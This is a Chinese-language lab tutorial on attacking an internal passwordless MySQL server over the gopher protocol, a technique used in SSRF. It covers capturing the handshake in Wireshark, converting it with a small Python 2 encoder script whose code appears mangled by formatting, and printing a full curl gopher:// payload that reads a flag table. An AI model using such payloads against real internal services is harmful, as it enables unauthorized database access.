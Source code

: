 ```yaml
---
title: gopher 攻击内网mysql
id: zhfly3583
---
```


#### gopher 攻击内网mysql

> MySQL有密码和无密码的认证方式不一样，无密码认证时直接发送TCP/IP数据包即可访问，有密码数据包中存在加盐加密。如果内网中的mysql数据库存在无密码的用户，可结合gopher协议进行攻击。

首先配置数据库，kali默认安装的为MariaDB，配置路径与mysql不同；

```
#进入mysql命令行，设置无密码：
SET PASSWORD FOR root@localhost=PASSWORD('');
#修改配置文件：
vim /etc/mysql/mariadb.conf.d/50-server.cnf，添加skip-grant-tables 
```

在kali下打开wireshark，监听`any`网卡

执行命令

```
mysql -h127.0.0.1 -uroot -p#必须指定-h，否则流量不走网卡，无法抓取
select flag from ssrf.flag;
exit; 
```

筛选出mysql数据包

![image](../img/c7577d2848ef2aeb724b55fb104fd0f6.png)

跟踪TCP流，选取request请求，并显示为原始数据

![image](../img/9d844b86308e0773f00929b44526b6f4.png)

编码为gopher协议格式

```
#encoding:utf-8

def result(s):

a=[s[i:i+2] for i in xrange(0,len(s),2)]#两两一组

return “curl gopher://127.0.0.1:3306/_%” + “%”.join(a) `if **name** == ‘**main**’:

import sys

s=sys.argv[1]

print result(s)` 
```

得到payload

```
curl gopher://127.0.0.1:3306/_%ae%00%00%01%85%a6%3f%20%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%30%33%38%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%36%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%16%00%00%00%03%73%65%6c%65%63%74%2a%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%01%00%00%00%01 --output - > mysql.txt 
```

使用strings命令读取mysql.txt，获得输出结果

```
strings mysql.txt 
```

![image](../img/04e0a08c7c60ecf8defd2129946f52fe.png)